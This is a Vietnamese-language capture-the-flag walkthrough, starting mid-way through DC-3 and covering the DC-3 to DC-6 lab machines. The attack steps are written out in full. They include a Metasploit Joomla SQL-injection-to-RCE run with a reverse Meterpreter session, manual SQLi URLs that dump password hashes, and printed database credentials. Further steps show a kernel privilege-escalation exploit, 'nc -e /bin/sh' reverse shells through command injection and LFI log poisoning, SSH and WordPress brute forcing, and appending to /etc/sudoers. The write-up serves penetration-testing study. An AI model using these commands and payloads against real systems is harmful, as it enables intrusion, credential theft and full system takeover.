Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 192/14344384 (0.00%)
Rejected.........: 0/192 (0.00%)
Restore.Point....: 96/14344384 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#01...: daniela -> november
Hardware.Mon.#01.: Temp:  0c Fan:  0% Util: 81% Core:2461MHz Mem:2800MHz Bus:16

Started: Mon Mar 16 02:27:39 2026
Stopped: Mon Mar 16 02:28:05 2026
```

Chúng ta biết mật khẩu là `snoopy`.

Bây giờ chúng ta truy cập vào trang `172.16.1.130/administrator/index.php`.



Chúng ta đăng nhập được vào:



Tiếp theo chúng ta trở lại `msfconsole`:

```bash
msf6 > use exploit/unix/webapp/joomla_comfields_sqli_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/joomla_comfields_sqli_rce) >back
[-] Unknown command: �back. Did you mean back? Run the help command for more details.
msf6 exploit(unix/webapp/joomla_comfields_sqli_rce) > back
msf6 > use PAYLOAD php/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  payload/php/meterpreter/reverse_tcp       .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
   1  payload/php/meterpreter/reverse_tcp_uuid  .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager


Interact with a module by name or index. For example info 1, use 1 or use payload/php/meterpreter/reverse_tcp_uuid

msf6 > use PAYLOAD php/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  payload/php/meterpreter/reverse_tcp       .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
   1  payload/php/meterpreter/reverse_tcp_uuid  .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager


Interact with a module by name or index. For example info 1, use 1 or use payload/php/meterpreter/reverse_tcp_uuid

msf6 > use 1
msf6 payload(php/meterpreter/reverse_tcp_uuid) > show options

Module options (payload/php/meterpreter/reverse_tcp_uuid):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


View the full module info with the info, or info -d command.

msf6 payload(php/meterpreter/reverse_tcp_uuid) > back
msf6 > set RHOSTS 172.16.1.130
RHOSTS => 172.16.1.130
msf6 > set LHOST eth0
LHOST => eth0
msf6 > use exploit/unix/webapp/joomla_comfields_sqli_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/joomla_comfields_sqli_rce) > run
[*] Started reverse TCP handler on 172.16.1.129:4444
[*] 172.16.1.130:80 - Retrieved table prefix [ d8uea ]
[*] 172.16.1.130:80 - Retrieved cookie [ kmnfk2bhlmu51eo4hn622tkq70 ]
[*] 172.16.1.130:80 - Retrieved unauthenticated cookie [ 6f12c8b01052b36ca2996b535ee18e8d ]
[+] 172.16.1.130:80 - Successfully authenticated
[*] 172.16.1.130:80 - Creating file [ IMJ2Zi.php ]
[*] 172.16.1.130:80 - Following redirect to [ /administrator/index.php?option=com_templates&view=template&id=503&file=L0lNSjJaaS5waHA%3D ]
[*] 172.16.1.130:80 - Token [ 94f94c8cdac659e3507441875d87bbee ] retrieved
[*] 172.16.1.130:80 - Template path [ /templates/beez3/ ] retrieved
[*] 172.16.1.130:80 - Insert payload into file [ IMJ2Zi.php ]
[*] 172.16.1.130:80 - Payload data inserted into [ IMJ2Zi.php ]
[*] 172.16.1.130:80 - Executing payload
[*] Sending stage (40004 bytes) to 172.16.1.130
[+] Deleted IMJ2Zi.php
[*] Meterpreter session 1 opened (172.16.1.129:4444 -> 172.16.1.130:40932) at 2026-03-15 15:47:16 -0400
```

Tui thực hiện mở Shell và sử dụng lệnh Python sau để giao diện đẹp thuận tiện cho việc khai thác:

```bash
meterpreter > shell
Process 1548 created.
Channel 1 created.
python3 -c 'import pty; pty.spawn("/bin/sh")'
$ /bin/bash
www-data@DC-3:/var/www/html/templates/beez3$
```

Vậy hiện nay tui đang đăng nhập với tư cách là người dùng www-data và hiện đang ở trong thư mục web:

```txt
www-data@DC-3:/var/www/html/templates/beez3$ ls -l
ls -l
total 200
-rw-r--r--  1 www-data www-data   2030 Apr 26  2017 component.php
drwxr-xr-x  2 www-data www-data   4096 Mar 23  2019 css
-rw-r--r--  1 www-data www-data   8086 Apr 26  2017 error.php
-rw-r--r--  1 www-data www-data   2019 Apr 26  2017 favicon.ico
drwxr-xr-x 10 www-data www-data   4096 Mar 23  2019 html
drwxr-xr-x  5 www-data www-data   4096 Mar 23  2019 images
-rw-r--r--  1 www-data www-data   8849 Apr 26  2017 index.php
drwxr-xr-x  2 www-data www-data   4096 Mar 23  2019 javascript
-rw-r--r--  1 www-data www-data   1446 Apr 26  2017 jsstrings.php
drwxr-xr-x  3 www-data www-data   4096 Mar 23  2019 language
-rw-r--r--  1 www-data www-data   4411 Apr 26  2017 templateDetails.xml
-rw-r--r--  1 www-data www-data 118531 Apr 26  2017 template_preview.png
-rw-r--r--  1 www-data www-data  21957 Apr 26  2017 template_thumbnail.png
```

chúng ta cùng nghịch ngợm sau khi vào trong này thì ta phát hiện ra một file rất là hay đó chính là `configuration.php`:

```txt
www-data@DC-3:/var/www/html/templates/beez3$ ls
ls
component.php  html        jsstrings.php         template_thumbnail.png
css            images      language
error.php      index.php   templateDetails.xml
favicon.ico    javascript  template_preview.png
www-data@DC-3:/var/www/html/templates/beez3$ cd ..
cd ..
www-data@DC-3:/var/www/html/templates$ ls
ls
beez3  index.html  protostar  system
www-data@DC-3:/var/www/html/templates$ cd ..
cd ..
www-data@DC-3:/var/www/html$ ;s
;s
bash: syntax error near unexpected token `;'
www-data@DC-3:/var/www/html$ ls
ls
LICENSE.txt    cli                includes   media            tmp
README.txt     components         index.php  modules          web.config.txt
administrator  configuration.php  language   plugins
bin            htaccess.txt       layouts    robots.txt.dist
cache          images             libraries  templates
www-data@DC-3:/var/www/html$ ls -l
ls -l
total 108
-rw-r--r--  1 www-data www-data 18092 Apr 26  2017 LICENSE.txt
-rw-r--r--  1 www-data www-data  4494 Apr 26  2017 README.txt
drwxr-xr-x 11 www-data www-data  4096 Apr 26  2017 administrator
drwxr-xr-x  2 www-data www-data  4096 Apr 26  2017 bin
drwxr-xr-x  2 www-data www-data  4096 Apr 26  2017 cache
drwxr-xr-x  2 www-data www-data  4096 Apr 26  2017 cli
drwxr-xr-x 20 www-data www-data  4096 Mar 23  2019 components
-rw-r--r--  1 www-data www-data  1946 Mar 23  2019 configuration.php
-rw-r--r--  1 www-data www-data  3005 Apr 26  2017 htaccess.txt
drwxr-xr-x  6 www-data www-data  4096 Mar 23  2019 images
drwxr-xr-x  2 www-data www-data  4096 Apr 26  2017 includes
-rw-r--r--  1 www-data www-data  1420 Apr 26  2017 index.php
drwxr-xr-x  4 www-data www-data  4096 Apr 26  2017 language
drwxr-xr-x  5 www-data www-data  4096 Apr 26  2017 layouts
drwxr-xr-x 11 www-data www-data  4096 Apr 26  2017 libraries
drwxr-xr-x 27 www-data www-data  4096 Mar 23  2019 media
drwxr-xr-x 29 www-data www-data  4096 Mar 23  2019 modules
drwxr-xr-x 16 www-data www-data  4096 Apr 26  2017 plugins
-rw-r--r--  1 www-data www-data   836 Apr 26  2017 robots.txt.dist
drwxr-xr-x  5 www-data www-data  4096 Apr 26  2017 templates
drwxr-xr-x  5 www-data www-data  4096 Mar 23  2019 tmp
-rw-r--r--  1 www-data www-data  1690 Apr 26  2017 web.config.txt
```

Kết quar như sau:

```bash
cat  configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'DC-3';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';

        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'squires';

        public $db = 'joomladb';
        public $dbprefix = 'd8uea_';
        public $live_site = '';
        public $secret = '7M6S1HqGMvt1JYkY';
        public $gzip = '0';
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
        public $ftp_host = '127.0.0.1';
        public $ftp_port = '21';
        public $ftp_user = '';
        public $ftp_pass = '';
        public $ftp_root = '';
        public $ftp_enable = '0';
        public $offset = 'UTC';
        public $mailonline = '1';
        public $mailer = 'mail';
        public $mailfrom = 'freddy@norealaddress.net';
        public $fromname = 'DC-3';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = '0';
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
        public $smtpport = '25';
        public $caching = '0';
        public $cache_handler = 'file';
        public $cachetime = '15';
        public $cache_platformprefix = '0';
        public $MetaDesc = 'A website for DC-3';
        public $MetaKeys = '';
        public $MetaTitle = '1';
        public $MetaAuthor = '1';
        public $MetaVersion = '0';
        public $robots = '';
        public $sef = '1';
        public $sef_rewrite = '0';
        public $sef_suffix = '0';
        public $unicodeslugs = '0';
        public $feed_limit = '10';
        public $feed_email = 'none';
        public $log_path = '/var/www/html/administrator/logs';
        public $tmp_path = '/var/www/html/tmp';
        public $lifetime = '15';
        public $session_handler = 'database';
        public $shared_session = '0';
}
```

Những gì chúng ta thu được ở đây là như sau:

```bash
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'squires';
```

Chúng ta có người dùng root với mật khẩu là `squires`với tư cách là quản trị viên `mysql` cục bộ, nghĩa là bằng việc sử dụng cái này, bạn có thể truy cập vào cơ sở dữ liệu mysql

Bạn có thể truy cập vào cơ sở dữ liệu mysql và cả một vài bảng nhưng mà lại không tìm thấy bất cứ thứ gi hữu ích.

Tôi cũng đã kiểm tra các tệp nhị phân set uid và tôikhông tìm thấy bất kỳ tệp nào. Vì vậy trong bước tiếp theo chúng ta sẽ thực hiện thu thập thông tin cua hệ thống càng nhiều càng tốt và sớm phát hiện ra phiên bản `Linux 4.4.0` đang chạy.

Chúng ta cùng search các exploit của `linux kernel 4.4`:

```bash
searchsploit linux kernel 4.4
```

```txt
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation             | solaris/local/15962.c
Linux Kernel 2.4.4 < 2.4.37.4 / 2.6.0 < 2.6.30.4 - 'Sendpage' Local Privilege Escalat | linux/local/19933.rb
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) -  | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'i | linux_x86/local/9542.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                     | linux/local/50135.c
Linux Kernel 3.10/3.18 /4.4 - Netfilter IPT_SO_SET_REPLACE Memory Corruption          | linux/dos/39545.txt
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_RCVBUFFORCE' Local Privilege Escal | linux/local/41995.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                  | linux/dos/43234.c
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasploit)       | linux/local/40759.rb
Linux Kernel 4.4 (Ubuntu 16.04) - 'snd_timer_user_ccallback()' Kernel Pointer Leak    | linux/dos/46529.c
Linux Kernel 4.4 - 'rtnetlink' Stack Memory Disclosure                                | linux/local/46006.c
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)                                  | linux/dos/41457.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                   | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bounds Pr | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Conditio | windows_x86-64/local/47170.c
Linux Kernel 4.4.1 - REFCOUNT Overflow Use-After-Free in Keyrings Local Privilege Esc | linux/local/39277.c
Linux Kernel 4.4.1 - REFCOUNT Overflow Use-After-Free in Keyrings Local Privilege Esc | linux/local/40003.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Esc | linux/local/39772.txt
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                            | linux/local/41886.c
Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation             | arm/local/31574.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service          | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                          | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation     | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                               | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation         | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Service                                     | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak                              | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption                  | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                                        | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privileg | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalatio | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)                                               | linux/dos/44301.c
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

trong số tất cả cái trên thì ta cần thử và có 1 cái làm được đó chính là:

```bash
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Esc | linux/local/39772.txt
```

Tìm file exploit:

```bash
┌──(root㉿kali)-[/home/kali/dc-3]
└─# wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
--2026-03-15 20:45:05--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
Resolving gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
Connecting to gitlab.com (gitlab.com)|172.65.251.78|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7025 (6.9K) [application/octet-stream]
Saving to: ‘39772.zip’

39772.zip                                    100%[=============================================================================================>]   6.86K  --.-KB/s    in 0s

2026-03-15 20:45:06 (55.8 MB/s) - ‘39772.zip’ saved [7025/7025]

```

ta thực hiện tải file exploit lên trên máy:

```bash
cd /tmp
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cp /tmp/39772/ebpf_mapfd_doubleput_exploit/* /tmp/
```

Sau khi tải các file exploit lên trên máy, chúng ta có thể sử dụng công cụ khai thác để thực sự có được quyền root.

```bash
www-data@DC-3:/tmp$ ./compile.sh
./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
www-data@DC-3:/tmp$ ls
ls
39772
39772.zip
__MACOSX
compile.sh
doubleput
doubleput.c
hello
hello.c
suidhelper
suidhelper.c
systemd-private-0fcf9288989d4c9cb3a211531265d1ec-systemd-timesyncd.service-HuX1Lc
vmware-root
www-data@DC-3:/tmp$ ls -l
ls -l
total 76
drwxr-xr-x 3 www-data www-data  4096 Mar 16 10:56 39772
-rw-r--r-- 1 www-data www-data  7025 Mar 16 10:53 39772.zip
drwxrwxr-x 3 www-data www-data  4096 Aug 16  2016 __MACOSX
-rwxr-x--- 1 www-data www-data   155 Mar 16 10:56 compile.sh
-rwxr-xr-x 1 www-data www-data 12336 Mar 16 11:01 doubleput
-rw-r----- 1 www-data www-data  4188 Mar 16 10:56 doubleput.c
-rwxr-xr-x 1 www-data www-data  8028 Mar 16 11:01 hello
-rw-r----- 1 www-data www-data  2186 Mar 16 10:56 hello.c
-rwxr-xr-x 1 www-data www-data  7524 Mar 16 11:01 suidhelper
-rw-r----- 1 www-data www-data   255 Mar 16 10:56 suidhelper.c
drwx------ 3 root     root      4096 Mar 16 10:25 systemd-private-0fcf9288989d4c9cb3a211531265d1ec-systemd-timesyncd.service-HuX1Lc
drwx------ 2 root     root      4096 Mar 16 10:25 vmware-root
www-data@DC-3:/tmp$ ./compile.sh
./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
www-data@DC-3:/tmp$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
```

như vậy chúng ta đã có quyền `root`:



```txt
root@DC-3:/tmp#whoami
whoami
root
root@DC-3:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@DC-3:/tmp# cd /root
cd /root
root@DC-3:/root# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 604 Mar 26  2019 the-flag.txt
root@DC-3:/root# cat the-flag.txt
cat the-flag.txt
 __        __   _ _   ____                   _ _ _ _
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)


Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!! 
```

1. RCE như thế nào?

2. Priv như thế nào?

tại sao có phiên thì có thể có thể khai thác

khai thác bằng tay bình thường

khai thac SQLi


```bash
http://172.16.1.130/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(1,concat(0x3a,version()))

database()

# http://172.16.1.130/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(1,concat(0x3a,(SELECT SUBSTRING(table_name,1,32) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)))
# (SELECT SUBSTRING(table_name,1,32) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)
(SELECT%20SUBSTRING(table_name,1,32)%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20LIMIT%200,1)
# Lấy bảng -> users (python)

# http://172.16.1.130/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(1,concat(0x3a,(SELECT username FROM d8uea_users LIMIT 0,1)))
# (SELECT username FROM d8uea_users LIMIT 0,1)
(SELECT%20username%20FROM%20d8uea_users%20LIMIT%200,1)
# Lấy user -> admin

# http://172.16.1.130/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(1,concat(0x3a,(SELECT CONCAT(username,0x3a,password) FROM d8uea_users LIMIT 0,1)))
# (SELECT CONCAT(username,0x3a,password) FROM d8uea_users LIMIT 0,1)
(SELECT%20CONCAT(username,0x3a,password)%20FROM%20d8uea_users%20LIMIT%200,1)


# (SELECT CONCAT(username,0x3a,SUBSTRING(password,1,32)) FROM d8uea_users LIMIT 0,1)
(SELECT%20CONCAT(username%2C0x3a%2CSUBSTRING(password%2C1%2C32))%20FROM%20d8uea_users%20LIMIT%200%2C1)

# http://172.16.1.130/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(1,concat(0x3a,(SELECT%20CONCAT(username,0x3a,SUBSTRING(password,1,32))%20FROM%20d8uea_users%20LIMIT%200,1)))
(SELECT%20CONCAT(username,0x3a,SUBSTRING(password,1,30))%20FROM%20d8uea_users%20LIMIT%200,1)
# PASS1: $2y$10$DpfpYjADpejngxNh9G
(SELECT%20CONCAT(username,0x3a,SUBSTRING(password,26,28))%20FROM%20d8uea_users%20LIMIT%200,1)
# PASS2: nmCeyIHCWpL97CVRnGeZsVJwR
(SELECT%20CONCAT(username,0x3a,SUBSTRING(password,51,30))%20FROM%20d8uea_users%20LIMIT%200,1)
# PASS3: 0kWFlfB1Zu
# -> $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
# -> $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu


# Tìm template
# http://172.16.1.130/templates/beez3/tung.php

```

# DC-4

## Recon

```bash
sudo nmap -T4 -sS -e eth0 172.16.1.0/24
```



```bash
nmap -p- -sV 172.16.1.131
```



Ta thực hiện tuy cập trang web thấy xuất hiện như sau:



## Login Brute Force

Bây giờ ta sẽ thực hiện tấn công brute force mật khâu sử dụng burp.



Ta sẽ cần một danh sách các mật khẩu có thể sư dụng được, chúng ta sẽ sử dụng ile rockyou.txt và sẽ mất một chút kha khá thời gian.



Khi thực hiện tấn công ta sẽ có những kết quar sau:



Ta thấy là ở đây có rất nhiều kết quả có thê xảy ra và hầu hết có độ dai 499 nhưng nó không phải là thông tind đăng nhập chính xác, và ở dưới có gói tin với độ dai 660 với pass là `happy` chính là thông tin chúng ta có thê đăng nhập. 



Như vậy chúng ta đăng nhập thành công.

## Reverse Shell

Chúng ta thấy có giao diện như sau:





Màn hình đang hiển thị kết quả của câu lệnh `ls -l`, nó nói là bạn đang đăng nhập và hiện thị kết quả cua câu lệnh đó, như vậy chúng ta có thê sử dụng burp để có truyền câu lệnh command mà chúng ta mong muốn vào, ta sẽ thực hiện reverse shell.

Trên linux:

```bash
nc -lvnp 3333
```



```bash
radio=nc -e /bin/sh 172.16.1.128 3333&submit=Run
```



Khi ta thực hiện Send to Repeater thì ta nhận thấy ở máy kali đã có một phiên kết nối tới:



```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```



Như vậy chúng ta có thê thấy giống như kết quả hiện ở trên màn hình dưới kia.

## Brute force SSH

```bash
ls /home
```

ta thấy có 3 user là charles, jim, sam. Ta thực hiện khám phá các user đó, trrước tiên là sam:

```bash
ls -la /home/sam
ls -la /home/jim
```



Ta thấy có một thư mục backup, ta xem nội dung bên tronh.

```bash
ls -la /home/jim/backups
```



Nó sẽ là một danh sách các mật khẩu:



Ta thực hiện tải file đó về máy tính kali của chúng ta:

```bash
cd /home/jim/backups/
python3 -m http.server
```



```bash
wget 172.16.1.131:8000/old-passwords.bak
```



Sau khi có mật khâu backup ta thực hiện brute force ssh băng hydra:

```bash
hydra -l jim -P old-passwords.bak 172.16.1.131 ssh -t 60
```



Như vậy đến đây ta đã có mật khẩu ssh của jim là `jibril04`.

## Fun Mail

Khi ta thực hiện ssh vào thì ta thấy có một thông báo có mail dành cho jim:



Đọc mail này xong chúng ta có nốt mật khẩu của charles là `^xHhA&hvim0y`. Chuyển sang tài khoan của `charles`.



## Root Flag

Như vậy chúng ta có một câu lệnh có quyền root nhưng mà không cần passwd. Tiếc là câu lệnh này không phải câu lệnh gốc ở trên linux. Ta sẽ thực hiện xem chức năng chính của câu lệnh này:

```bash
/usr/bin/teehee --help
```



Quá tuyệt vời câu lệnh này cho phép ghi nối thêm vào file nhưng không ghi đè, được ghi vào file mà có cả quyền root thì ta có thể cung cấp cho của user `charles` thực thi sudo cho mọi lệnh.

```bash
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
```

Thành công!





# DC-5

## Recon

Ta thực hiện truy cập trang web sẽ có giao diện như sau:



## Reverse Shell

Ta sẽ thực hiện khám phá xem website có những chức năng gì, hầu hết toàn giới thiệu và có phần `contact` cho phép chúng ta gửi thông tin của chúng ta.



Sau khi nhập thông tin xong sẽ điều hướng sang trang `thankyou.php` với những tham số mà ta truyền vào:



Một điều đặc biệt khi ta thấy ở đây là Copyright 2018 nhưng khi ta F5 lại thi lại xuất hiện năm khác.



Điều này chứng tỏ đây không phải là một file tĩnh mà đang lấy thông tin từ một tập tin thực sự, lúc này ta kiểm tra xem có dính `lfi` không.

```bash
172.16.1.132/thankyou.php?file=/etc/passwd
```



Như vậy laf chúng ta có thể thực hiện reverse shell ở trên hệ thống, ta sẽ sử dụng burp để có thể làm điều đó bằng việc chỉnh các tham số đầu vào.



```bash
GET /thankyou.php?file=/var/log//nginx/error.log&cmd=nc -e 192.168.0.208 3333| HTTP/1.1
```

Trên máy kali:

```bash
nc -lvnp 3333
```



Khi chúng ta gửi thì thực sự có một kết nối tại đây:





## Exploit Configuration

Ta sẽ thực hiện tìm các fle SUID trên hệ thống

```bash
find / -perm /4000 -print 2>/dev/null
```



Ta thấy ở thư mục bin có một lệnh đó lạ đó chính là `screen-4.5.0`, đây là một lệnh cũng đã tương đối là cũ với phiên bản 4.5.0 nên có thể có chứa `expploit`:



ta sẽ search thử exploit của lệnh đó:

```bash
searchsploit screen 4.5.0
```



Ta thực hiện tìm file exploit ở trên mạng và thực hiện tải về:



Ta thực hiện tải shell về trên máy của DC-5:



Cấp quyền cho file và thực hiện chạy:

```bash
chmod +x script.sh
./script
```



Sau khi chạy xong thì ta sẽ có quyền root.



# DC-6

## Recon

Ta thực hiện như các lab trên:



Giao diện web của WordPress 5.1.1.


Ngoài ra chúng ta còn quét thêm được các user:



## Exploiting WordPress

Ta sẽ sử dụng wpscan đê có thể tấn công mật khẩu từ file rockyou.txt hay password.txt.

```bash
wpscan --url http://wordy -U user.txt -P ~/passwords.txt -t 60
```

Quá trình này sẽ mất một chút thời gian.



Sau một thời gian chứng ta thấy chứng ta có được thông tin cửa `mark` là `helpdesk01`. Ta thực hiện login ở trên website

```
192.168.0.177/wp-login-php
```



## Reverse Shell

So với lab DC-1 thì ta thấy ở đây bây giờ có thêm `Acticvity Monitor`, chúng ta thử xem có lỗ hổng nào liên quan đến cái này không.

```bash
searchsploit activity monitor
```



Như vậy có thể khai thác từ chức năng này, ta thực hiện tải file về và chỉnh sửa sao cho có thể reverse shell sang máy kali của chúng ta.

```bash
searchsploit -m 45274.html
```



ta cần chỉnh sửa về trang web của dc-6 và địa chỉ IP của máy chúng ta.



Trên máy kali:

```bash
nc -lvnp 3333
```



Ta thực hiện mở file html trên và thực hiện submit request, lúc này tại máy kali cua chúng ta sẽ có một phiên kết nối tới:



## Obtaining SSH Credentials 

Chúng ta thử tìm trong hệ thống:



Chúng ta sẽ thử xem trong mark có gì, vì chúng ta nãy đang login vào tài khoản này:

```bash
ls -la /home/mark
```



Tại đây ta thấy có một thư mục `stuff`, bên trong có một file `.txt`:



Tại đây chúng ta có thêm user `graham` và mật khẩu là `GSo7isUM1D4`. Ta thực hiện ssh đến tài khoản này:

```bash
ssh graham@192.168.0.177
```

## Hijacking Files 

Chúng ta hãy xem các câu lệnh mà người dùng nay có thê thực thi được dưới quyền sudo:

```bash
sudo -l
```



tại đây ta có một file backups.sh để có thể thực thi mà không cần mật khẩu (nhưng đối với jens). Ta hãy xem nội dung của file này:

```bash
less /home/jens/backups.sh
```



Chúng ta hãy xem chúng ta có thể có quyền chỉnh sửa file này không:

```bash
ls -la /home/jens/backups.sh
```



Như vậy ở đây chúng ta nhận ra chi có những người trong nhóm devs mới có thể chỉnh sửa, vậy chúng ta xem chúng ta có trong nhóm devs hay không:

```bash
id
```



Như vậy chúng ta đang đã ở trong nhóm `devs` với tư cách người dùng `graham`

Chúng ta hãy thay đổi nội dung của file:

```bash
vi /home/jens/backups.sh
```



```bash
cd /home/jens
sudo -u jens ./backups.sh
```



## Root Flag

ta tiếp tục xem lệnh sudo:

```bash
sudo -l
```



Như vậy ở đây ta thấy có lệnh nmap được thực thi dưới quyền root mà không cần mật khẩu. Ta thực hiện tra cứu trên mạng:







